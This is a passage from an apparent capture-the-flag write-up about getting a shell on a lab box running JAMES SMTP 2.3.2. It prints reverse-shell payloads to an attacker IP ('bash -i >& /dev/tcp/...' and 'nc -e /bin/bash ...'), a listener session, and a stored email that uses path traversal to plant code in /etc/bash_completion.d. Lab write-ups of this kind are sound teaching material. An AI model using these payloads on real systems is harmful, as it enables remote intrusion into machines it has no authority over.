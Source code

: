     '
    bash -i >& /dev/tcp/10.10.14.47/443 0>&1

    .
    250 2.6.0 Message received
    quit
    221 2.0.0 solidstate Service closing transmission channel
    Connection closed by foreign host.



And then triggered it, but got errors and the connection died:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49650.
    : ambiguous redirect363837383831322D35.Repository.FileStreamStore: line 16: 1



However, when I tried the same payload in the `searchsploit` script, it
worked. It was driving me crazy, so I went to look at the different
payloads.

For each email received by the account, there are two files in the
user's directory (for this user, that's `/etc/bash_completion.d`), a
Object Store and a Stream Store. For example:



    root@solidstate:/etc/bash_completion.d# ls
    4D61696C313538383231373936323331372D38.Repository.FileObjectStore  4D61696C313538383231373936323331372D38.Repository.FileStreamStore



The Stream Store is the one that contains the payload. It looks like a
raw email:



    Return-Path: <'0xdf@10.10.14.47>
    Message-ID: <8915397.8.1588217962318.JavaMail.root@solidstate>
    MIME-Version: 1.0
    Content-Type: text/plain; charset=us-ascii
    Content-Transfer-Encoding: 7bit
    Delivered-To: ../../../../../../../../etc/bash_completion.d@localhost
    Received: from 10.10.14.47 ([10.10.14.47])
              by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 252
              for <../../../../../../../../etc/bash_completion.d@localhost>;
              Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    Date: Wed, 29 Apr 2020 23:39:07 -0400 (EDT)
    FROM: 0xdf@10.10.14.47

    '
    /bin/nc -e /bin/bash 10.10.14.47 443 &
